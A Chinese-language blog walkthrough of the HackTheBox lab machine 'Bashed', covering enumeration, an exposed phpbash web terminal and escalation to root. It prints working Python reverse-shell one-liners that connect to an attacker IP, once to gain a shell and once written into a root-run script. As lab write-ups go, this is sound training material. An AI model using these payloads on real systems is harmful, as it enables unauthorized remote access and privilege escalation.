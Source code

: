 ```yaml
---
title: Bashed
date: 2021-10-14
swiper: false # 将改文章放入轮播图中
swiperImg: '/medias/1.jpg' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/ct_3.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: walkthrough
tags: [渗透测试, 靶机]
top: false
---
```




# Bashed

- **bashed是hackthebox上面难度为easy的靶机**

### 信息收集

- 发现开启的端口只有80端口，开启了http服务

![image-20211012124657126](http://cdn.mxrblog.cn/image-20211012124657126.png)

- 打开http://10.10.10.68，查看发现有一个网站

![image-20211012124933106](http://cdn.mxrblog.cn/image-20211012124933106.png)

- 这个网站介绍了工具phpbash的用法

![image-20211012125015175](http://cdn.mxrblog.cn/image-20211012125015175.png)

- 对网站的目录进行检索

- 先使用工具gobuster对网站的目录进行检索

![image-20211012130512392](http://cdn.mxrblog.cn/image-20211012130512392.png)

- 使用dobuster和dirsearch查看这些目录时，发现里面没有什么具有价值的东西

- 在网页上直接进入这些目录，发现http://10.10.10.68/dev/ 下有东西

![image-20211012132012258](http://cdn.mxrblog.cn/image-20211012132012258.png)

- 根据网站的内容介绍，我们可以知道这个phpbash是一个网页版终端，我们点进去，果然有一个终端，在里面搜索，发现了user.txt文件
- 查看内容：

![image-20211012132207011](http://cdn.mxrblog.cn/image-20211012132207011.png)

- 使用python脚本反弹shell

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.23",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

- 获取交互式shell

`python -c 'import pty; pty.spawn("/bin/bash")'`

- 使用sudo -l 会发现我们可以使用sudo 命令执行有关scriptmanager用户的命令，于是使用命令

`sudo -i -u scriptmanager`

- 此时我们使用命令`whoami` 会发现我们已经切换好用户了
- 进入/scripts目录，会发现有test.py和test.txt文件，查看权限知道是root权限，但是scriptmanager用户也可以执行，向text.py文件中输入反向shell代码，在kali机器中打开nc监听

`echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.23",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > text.py`

- 已经有root权限，并且找到root.txt文件



![image-20211012140758292](http://cdn.mxrblog.cn/image-20211012140758292.png)

